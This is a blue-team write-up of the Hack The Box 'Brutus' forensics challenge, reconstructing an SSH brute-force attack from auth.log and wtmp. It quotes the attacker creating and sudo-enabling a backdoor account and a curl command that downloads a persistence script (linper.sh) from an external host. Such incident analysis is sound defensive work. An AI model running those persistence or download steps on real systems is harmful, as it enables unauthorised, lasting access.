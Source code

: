 # Brutus HTB Writeup

In this challenge, we analyze **Unix auth.log** and **wtmp** logs to trace an attack.

## Summary

We are informed that:
- A Confluence server was brute-forced via SSH.
- The attacker performed additional activities visible in `auth.log`.
- We will explore privilege escalation (privesc), persistence, and command execution tactics.

---

## Step 1: Download and Unpack

Download the provided archive:

```
wget [link-to-the-file]
```

Password: `hacktheblue`

Note: There is no README file inside, so we move directly to log analysis.

---

## Step 2: Provided Files

- **auth.log** → Review attacker commands and actions.
- **wtmp** → A binary log tracking system login/logout events (usually under `/var/log/wtmp`).
- **utmp.py** → Python script provided to parse `wtmp` data.

Reference:> [utmp.py](http://utmp.py) : *after googling* seems like it helps reading wtmp files. might be HTB helping us there. 
On Linux, the `utmp.read()` function decodes a binary utmp/wtmp stream and yields structured records.

---

## Step 3: Analyzing `auth.log`

Key log entries:

```
Mar  6 06:19:52 sshd[1465]: AuthorizedKeysCommand failed
Mar  6 06:19:54 sshd[1465]: Accepted password for root from 203.101.190.9
...
Mar  6 06:32:44 sshd[2491]: Accepted password for root from 65.2.161.68
...
Mar  6 06:34:18 useradd: new user: cyberjunkie
Mar  6 06:35:15 usermod: added 'cyberjunkie' to 'sudo'
```

Summary:
- Attacker brute-forced the **root** account.
- Created a backdoor user: **cyberjunkie**.
- Escalated privileges by adding `cyberjunkie` to the `sudo` group.

This persistence ensures access even if the root password is later changed.

---

## Step 4: Analyzing `wtmp`

Run:

```
python utmp.py -o wtmpTMP wtmp
```

This outputs a readable login session table.


## Questions & Answers

| #  | Question                                                                                      | Answer                                                                                       | How It Was Found                                                                                                                                                      |
|----|------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | IP address used by the attacker for brute-force?                                              | 65.2.161.68                                                                                 | Simply check for login attempts that didn’t go through in `auth.log`.                                                                                                 |
| 2  | Which account did the attacker successfully access?                                           | root                                                                                        | Found in `auth.log`: look for **"accepted password for root"**.                                                                                                       |
| 3  | Timestamp when the attacker manually logged in (from wtmp)?                                  | 2024/03/06 01:32:45                                                                         | Cross-reference with `auth.log` to see when a human (not bot) connected manually; humans don’t log in/out at the same timestamp.                                      |
| 4  | SSH session number assigned to the attacker's session?                                       | 37                                                                                          | Focus on real malicious user sessions, not bot connections; the session ID is generated when someone logs in.                                                         |
| 5  | Name of the persistence account added?                                                       | cyberjunkie                                                                                 | Mentioned clearly in `auth.log` after `useradd` and `groupadd`.                                                                                                       |
| 6  | MITRE ATT&CK sub-technique ID for persistence via account creation?                          | T1136.001                                                                                   | Googled: MITRE ATT&CK → group elevation → persistence; found under https://attack.mitre.org/tactics/TA0003/ (searching for "group" and persistence techniques).      |
| 7  | Time when the attacker's first SSH session ended (according to auth.log)?                    | 2024-03-06 06:31:40 (session 34)                                                           | Found by looking for session closure logs in `auth.log`.                                                                                                              |
| 8  | Full sudo command attacker used to download a script on the backdoor account?                | /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh         | Found in `auth.log`: attacker used sudo to download an external script for further actions.                                                                           |

---

## Final Notes

This exercise highlights:
- The importance of monitoring SSH access and log files (`auth.log`, `wtmp`).
- Disabling root SSH login and enforcing strong passwords.
- Implementing intrusion detection and alerting systems to catch brute-force attacks early.

Stay vigilant!

